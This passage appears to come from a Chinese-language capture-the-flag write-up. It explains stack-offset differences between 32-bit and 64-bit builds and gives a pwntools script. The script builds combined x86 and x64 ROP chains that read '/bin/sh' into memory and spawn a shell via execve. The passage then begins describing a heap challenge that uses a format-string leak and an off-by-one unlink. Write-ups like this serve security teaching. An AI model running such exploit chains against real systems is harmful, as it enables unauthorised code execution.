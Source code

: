 这里需要注意的是，栈变量在 32 位下位于 `esp+0xc`，在 64 位下位于 `rsp+0x0`，在计算需要填充的 padding 时需要考虑到这一点。


```python
pop_eax = 0x80a8af6
pop_dcb = 0x806e9f1
int_80 = 0x80495a3
data86 = 0x80d7000
read = 0x806c8e0
add_esp_20 = 0x80a69f2

offset86 = 0x20-0xc # esp+0xc
chain86 = [
	'a'*offset86,
	read,
	pop_dcb,0,data86,0x8,
	pop_dcb,0,0,data86,
	pop_eax,0xb,
	int_80
]
payload86 = flat(chain86,word_size=32)

pop_rax = 0x43b97c
pop_rdi = 0x4005f6
pop_rsi = 0x405895
pop_rdx = 0x43b9d5
syscall = 0x461645
data64 = 0x6a4e40
add_rsp_80 = 0x40cd17

offset64 = 0x80-len(payload86) # rsp+0x0
print hex(offset64)
chain64 = [
	'a'*offset64,
	pop_rax,0,pop_rdi,0,
	pop_rsi,data64,pop_rdx,0x100,
	syscall,
	pop_rax,59,pop_rdi,data64,
	pop_rsi,0,pop_rdx,0,
	syscall
]
payload64 = flat(chain64,word_size=64)

payload = 'a'*0x110 + (p32(add_esp_20)+'aaaa') + p64(add_rsp_80) + payload86 + payload64

sa('?',payload)
s('/bin/sh\x00')
```


### axb_2019_heap
利用格式化字符串漏洞泄露堆地址和 libc。随后，可以发现 `edit` 时存在 off by one，我们在构造 unlink 的 fake chunk 时，该漏洞会导致修改下一个 chunk 的 `prev_size` 后会覆盖掉它的 `size` 字段最后一个字节。但是同样的，我们也可以利用该漏洞手动恢复最后一个字节。，这里是 `0xa0`。
